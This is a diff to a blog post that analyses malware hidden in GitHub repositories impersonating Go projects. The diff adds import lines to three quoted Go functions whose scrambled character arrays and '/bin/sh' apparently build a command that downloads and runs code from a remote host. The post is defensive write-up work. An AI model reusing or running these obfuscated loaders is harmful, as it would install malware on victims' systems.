

Before and after one commit to hougesen/mhouge.dk, a Markdown page: content/blog/rogue-one-a-malware-story.md, 3 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/content/blog/rogue-one-a-malware-story.md
+++ b/content/blog/rogue-one-a-malware-story.md
@@ -67,6 +67,8 @@ While I am in no way an expert at writing Go, it was pretty clear that something
 **Warning: this code downloads malware. You should not run it unless you know what you are doing:**
 
 ```go
+import "os/exec"
+
 func rUnCTC() error {
 	HJ := []string{"e", "3", "d", "m", "/", "s", "&", "h", "i", ":", "3", "/", "c", "|", "d", "e", "/", "g", "1", "/", "o", "t", "/", "-", "4", "e", " ", "3", "u", " ", "w", "f", " ", "0", "a", "a", "-", "O", "6", "d", "n", "b", "p", "t", "b", "5", ".", "s", "i", "f", "r", "h", "/", " ", "r", "s", "7", "v", "e", " ", "t", "c", "t", "o", "g", "a", "/", "f", "n", "b", "a", " "}
 	utOYhb := "/bin/sh"
@@ -192,6 +194,8 @@ The only logical reason would be that GitHub actions expose information about th
 [https://github.com/upsetpanther/feishu/blob/dc01385fa277143ed93cfc18110789dfa209e277/cmd/feishu/image.go#L54-L63](https://github.com/upsetpanther/feishu/blob/dc01385fa277143ed93cfc18110789dfa209e277/cmd/feishu/image.go#L54-L63)
 
 ```go
+import "os/exec"
+
 func QfdnANi() error {
 	tkS := []string{"5", "s", "g", " ", "e", "s", "/", "i", "-", "/", "3", "d", " ", "g", "3", "n", "/", "e", "a", "4", "e", ":", "s", "/", "/", "t", "o", "a", "n", "a", "e", "/", "t", "f", "t", "s", "&", "/", " ", ".", " ", "3", "h", "a", "t", "b", "d", "t", "0", "a", "s", "v", "b", "w", "e", "-", "r", "i", "f", "t", "7", " ", "|", "1", "b", "h", " ", "p", "t", "O", "e", "6", "d", "b", "w", "r"}
 	uSZIGOH := "/bin/sh"
@@ -213,6 +217,8 @@ Like the earlier repositories, `wickedcorsa/go-hoyolab` is also an impersonation
 Interestingly the malware embedded in this repository uses the same domain and path as the one above (`vanartest [dot] website`).
 
 ```go
+import "os/exec"
+
 func sathAcl() error {
 	zR := []string{"3", "d", "t", "-", "t", "e", "5", "b", "g", "a", "6", ".", "e", "f", "t", "/", "&", "3", "g", "h", "/", " ", "|", "t", "b", "e", "a", "p", "-", "f", "e", "s", "0", "o", "a", "s", "a", "t", "b", "t", "7", "/", "4", " ", "h", "s", "r", " ", "s", "O", " ", "b", "s", "/", "/", "n", "/", "a", "3", "1", "d", "t", "n", "e", "v", "i", "w", " ", "i", " ", ":", "r", "e", "w", "/", "d"}
 	GeEGE := "/bin/sh"
````
Also changed, not shown: other parts of content/blog/rogue-one-a-malware-story.md (+6 -1 lines).
